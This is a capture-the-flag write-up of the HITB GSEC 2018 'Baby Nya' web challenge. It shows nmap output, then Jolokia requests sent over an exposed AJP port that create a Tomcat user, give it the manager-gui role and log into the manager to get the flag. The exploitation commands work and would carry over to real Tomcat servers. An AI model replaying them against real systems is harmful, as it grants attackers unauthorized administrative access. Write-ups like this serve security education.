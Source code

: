 ```yaml
---
title: "HITB GSEC Qualifiers 2018 - Baby Nya (Web)"
header:
  overlay_image: /assets/images/hitbgsecquals2018/babynya/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Tina Rolf on Unsplash"
tags:
  - hitbgsecquals2018
  - writeup
  - web
---
```


An exposed Apache JServ Protocol server allows an attacker to proxy requests to
Tomcat server running Jolokia. The Jolokia instance allows the attacker to
create user accounts and grant manager rights.

## Challenge Description

```
Nya Nya Nya, target: 47.75.128.216
```

#### Points

588 Points

15 Solved

## Solution

First, we scan the target to find exposed ports.

```
nmap -p- -A 47.75.128.216

Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-14 05:29 +08
Nmap scan report for 47.75.128.216
Host is up (0.044s latency).
Not shown: 65527 filtered ports
PORT      STATE  SERVICE       VERSION
22/tcp    open   ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 37:1b:36:12:eb:cd:b3:f6:d5:b7:06:e0:7d:c9:61:00 (RSA)
|_  256 bf:76:6f:85:2a:c3:82:75:66:97:74:5e:c5:87:e2:42 (ECDSA)
80/tcp    closed http
443/tcp   closed https
2333/tcp  closed snapp
3389/tcp  closed ms-wbt-server
8009/tcp  open   ajp13         Apache Jserv (Protocol v1.3)
| ajp-methods:
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
9999/tcp  open   http          nginx 1.10.3 (Ubuntu)
|_hadoop-datanode-info:
|_hadoop-jobtracker-info:
|_hadoop-tasktracker-info:
|_hbase-master-info:
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Site doesn't have a title (application/octet-stream).
10250/tcp closed unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The interesting port here is 8009, the Apache JServ Protocol server. We used a
heavily customised version of https://github.com/hypn0s/AJPy to perform
queries. The AJP server acts as a binary protocol proxy to communicate with the
Tomcat server.

There is a hint given during the competition:

```
the tomcat deployed jolokia.war
```

We can make queries to this Jolokia web application.

```
$ python tomcat.py -t 47.75.128.216 req -m GET /jolokia | jq
{
  "request": {
    "type": "version"
  },
  "value": {
    "agent": "1.5.0",
    "protocol": "7.2",
    "config": {
      "listenForHttpService": "true",
      "maxCollectionSize": "0",
      "authIgnoreCerts": "false",
      "agentId": "local-23766-52c7cdf2-servlet",
      "agentType": "servlet",
      "policyLocation": "classpath:/jolokia-access.xml",
      "agentContext": "/jolokia",
      "mimeType": "text/plain",
      "discoveryEnabled": "false",
      "streaming": "true",
      "historyMaxEntries": "10",
      "allowDnsReverseLookup": "true",
      "maxObjects": "0",
      "debug": "false",
      "serializeException": "false",
      "detectorOptions": "{}",
      "dispatcherClasses": "org.jolokia.http.Jsr160ProxyNotEnabledByDefaultAnymoreDispatcher",
      "maxDepth": "15",
      "authMode": "basic",
      "canonicalNaming": "true",
      "allowErrorDetails": "true",
      "realm": "jolokia",
      "includeStackTrace": "true",
      "useRestrictorService": "false",
      "debugMaxEntries": "100"
    },
    "info": {
      "product": "tomcat",
      "vendor": "Apache",
      "version": "8.0.32"
    }
  },
  "timestamp": 1523655661,
  "status": 200
}
```

We can use Jolokia to create roles, a user, and add those roles to the newly
created user. The important role to assign is 'manager-gui' which will grant
Tomcat manager rights to the user.

First, creating a user:

```shell
$ python2 tomcat.py -t 47.75.128.216 req -m POST /jolokia --data '{
   "type":"EXEC", "mbean":"Users:database=UserDatabase,type=UserDatabase",
   "operation": "createUser", "arguments": ["greyhats", "greyhats", ""]
}' | jq
{
  "request": {
    "mbean": "Users:database=UserDatabase,type=UserDatabase",
    "arguments": [
      "greyhats",
      "greyhats",
      ""
    ],
    "type": "exec",
    "operation": "createUser"
  },
  "value": "Users:type=User,username=\"greyhats\",database=UserDatabase",
  "timestamp": 1523655958,
  "status": 200
}
```

Next, creating the role:

```shell
$ python2 tomcat.py -t 47.75.128.216 req -m POST /jolokia --data '{
   "type":"EXEC", "mbean":"Users:database=UserDatabase,type=UserDatabase",
   "operation": "createRole", "arguments": ["manager-gui", ""]
}'  | jq
{
  "request": {
    "mbean": "Users:database=UserDatabase,type=UserDatabase",
    "arguments": [
      "manager-gui",
      ""
    ],
    "type": "exec",
    "operation": "createRole"
  },
  "value": "Users:type=Role,rolename=\"manager-gui\",database=UserDatabase",
  "timestamp": 1523656029,
  "status": 200
}
```

Finally, adding the role:

```shell
python2 tomcat.py -t 47.75.128.216 req -m POST /jolokia --data '{
   "type":"EXEC", "mbean":"Users:database=UserDatabase,type=User,username=\"greyhats\"",
   "operation": "addRole", "arguments": ["manager-gui"]
}' | jq
{
  "request": {
    "mbean": "Users:database=UserDatabase,type=User,username=\"greyhats\"",
    "arguments": [
      "manager-gui"
    ],
    "type": "exec",
    "operation": "addRole"
  },
  "value": null,
  "timestamp": 1523656086,
  "status": 200
}
```

Now, we can login to the Tomcat Manager and grab the flag:

```
$ python2 tomcat.py -t 47.75.128.216 req -u greyhats -p greyhats -m GET /manager/html | grep HITB
 <td class="row-left" bgcolor="#FFFFFF" rowspan="2"><small>HITB{TOMCAT_TOMCAT_KAWAII}</small></td>
```

Flag: **HITB{TOMCAT\_TOMCAT\_KAWAII}**

